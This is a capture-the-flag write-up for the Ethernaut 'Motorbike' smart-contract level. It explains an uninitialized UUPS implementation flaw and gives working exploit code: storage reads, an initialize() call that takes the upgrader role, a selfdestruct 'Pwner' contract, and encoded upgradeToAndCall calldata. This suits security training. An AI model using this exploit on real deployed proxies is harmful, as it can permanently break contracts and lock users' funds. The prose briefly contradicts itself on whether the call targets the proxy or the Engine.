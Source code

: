 # Ethernaut: 25. Motorbike

> Ethernaut's motorbike has a brand new upgradeable engine design. Would you be able to `selfdestruct` its engine and make the motorbike unusable ?

**Objective of CTF:**

- Destroy the motorbike engine via `selfdestruct`.

**Target contract:**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity <0.7.0;

import "@openzeppelin/contracts/utils/Address.sol";
import "@openzeppelin/contracts/proxy/utils/Initializable.sol";

contract Motorbike {
  // keccak-256 hash of "eip1967.proxy.implementation" subtracted by 1
  bytes32 internal constant _IMPLEMENTATION_SLOT = 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;

  struct AddressSlot {
    address value;
  }

  // Initializes the upgradeable proxy with an initial implementation specified by `_logic`.
  constructor(address _logic) public {
    require(Address.isContract(_logic), "ERC1967: new implementation is not a contract");
    _getAddressSlot(_IMPLEMENTATION_SLOT).value = _logic;
    (bool success, ) = _logic.delegatecall(abi.encodeWithSignature("initialize()"));
    require(success, "Call failed");
  }

  // Delegates the current call to `implementation`.
  function _delegate(address implementation) internal virtual {
    // solhint-disable-next-line no-inline-assembly
    assembly {
      calldatacopy(0, 0, calldatasize())
      let result := delegatecall(gas(), implementation, 0, calldatasize(), 0, 0)
      returndatacopy(0, 0, returndatasize())
      switch result
      case 0 {
        revert(0, returndatasize())
      }
      default {
        return(0, returndatasize())
      }
    }
  }

  // Fallback function that delegates calls to the address returned by `_implementation()`.
  // Will run if no other function in the contract matches the call data
  fallback() external payable virtual {
    _delegate(_getAddressSlot(_IMPLEMENTATION_SLOT).value);
  }

  // Returns an `AddressSlot` with member `value` located at `slot`.
  function _getAddressSlot(bytes32 slot) internal pure returns (AddressSlot storage r) {
    assembly {
      r_slot := slot
    }
  }
}

contract Engine is Initializable {
  // keccak-256 hash of "eip1967.proxy.implementation" subtracted by 1
  bytes32 internal constant _IMPLEMENTATION_SLOT = 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;

  address public upgrader;
  uint256 public horsePower;

  struct AddressSlot {
    address value;
  }

  function initialize() external initializer {
    horsePower = 1000;
    upgrader = msg.sender;
  }

  // Upgrade the implementation of the proxy to `newImplementation`
  // subsequently execute the function call
  function upgradeToAndCall(address newImplementation, bytes memory data) external payable {
    _authorizeUpgrade();
    _upgradeToAndCall(newImplementation, data);
  }

  // Restrict to upgrader role
  function _authorizeUpgrade() internal view {
    require(msg.sender == upgrader, "Can't upgrade");
  }

  // Perform implementation upgrade with security checks for UUPS proxies, and additional setup call.
  function _upgradeToAndCall(address newImplementation, bytes memory data) internal {
    // Initial upgrade and setup call
    _setImplementation(newImplementation);
    if (data.length > 0) {
      (bool success, ) = newImplementation.delegatecall(data);
      require(success, "Call failed");
    }
  }

  // Stores a new address in the EIP1967 implementation slot.
  function _setImplementation(address newImplementation) private {
    require(Address.isContract(newImplementation), "ERC1967: new implementation is not a contract");

    AddressSlot storage r;
    assembly {
      r_slot := _IMPLEMENTATION_SLOT
    }
    r.value = newImplementation;
  }
}
```

We have another proxy-based puzzle here. This time, we see that [EIP-1967](https://eips.ethereum.org/EIPS/eip-1967) is used, which means it is safe against storage collisions. More specifically, EIP-1967 defines a standard storage slot that the proxy uses. As per this standard, the logic contract is stored at `bytes32(uint256(keccak256('eip1967.proxy.implementation')) - 1)`, which is what we see in the code too.

When we examine the Motorbike contract, we realize that it is just a proxy with its logic being the Engine contract. Engine contract is [Initializable](https://docs.openzeppelin.com/upgrades-plugins/1.x/writing-upgradeable#initializers). There is a question mark here though: the `initializer` is called from the proxy, so the affected storage is that of the Motorbike, not the Engine! Consequently, Motorbike should have the results of initialization in it's storage, while Engine should not.

The `Initializable` contract has 2 storage variables, both 1-byte booleans. The Engine contract has two variables, a 20-byte address and a 32-byte unsigned integer. As per the EVM optimization, 2 booleans and 1 address will all occupy the same slot. So we should see an address and two boolean values side by side at the 0th position.

```js
// Proxy storage
await web3.eth.getStorageAt(contract.address, 0);
// '0x0000000000000000000058ab506795ec0d3bfae4448122afa4cde51cfdd20001'

// Engine address
const _IMPLEMENTATION_SLOT = '0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc';
const engineAddress = await web3.eth.getStorageAt(contract.address, web3.utils.hexToNumberString(_IMPLEMENTATION_SLOT));

await web3.eth.getStorageAt(engineAddress, 0);
// '0x0000000000000000000000000000000000000000000000000000000000000000'
```

Indeed, the initializer has mistakenly wrote to the proxy storage! The Engine contract has no idea that it is initialized, so we can call the initialize function there.

```js
await web3.eth.sendTransaction({
  from: player,
  to: engine,
  data: '0x8129fc1c', // initialize()
});
```

If we check the storage of Engine again, we will see that it is updated. We are now the `upgrader` and we can call the `updateToAndCall` function with a new contract of our own, and give `data` to make it `selfdestruct`.

We can write a small contract such as:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity <0.7.0;

contract Pwner {
  function pwn() public {
    selfdestruct(address(0));
  }
}
```

The objective is to make this the Engine of the Motorbike, so we will make the call to the proxy. Since our function signature will have no match there, it will be delegated to the Engine and there the new implementation will be our `Pwner` contract. Afterwards, `pwn()` will be called and the new implementation will `selfdestruct`.

```js
const _function = {
  inputs: [
    {
      name: 'newImplementation',
      type: 'address',
    },
    {
      name: 'data',
      type: 'bytes',
    },
  ],
  name: 'upgradeToAndCall',
  type: 'function',
};
const _parameters = [
  '0xad3359eAbEec598f7eBEDdb14BC056ca57fa32B1', // Pwner
  '0xdd365b8b', // pwn()
];
const _calldata = web3.eth.abi.encodeFunctionCall(_function, _parameters);
await web3.eth.sendTransaction({
  from: player,
  to: engineAddress, // not Motorbike!
  data: _calldata,
});
```

We are sending this transaction to Engine instead of Motorbike, because the Engine itself is like a proxy too. Notice in the `_upgradeToAndCall` internal function it makes a `delegatecall` to the `newImplementation`.
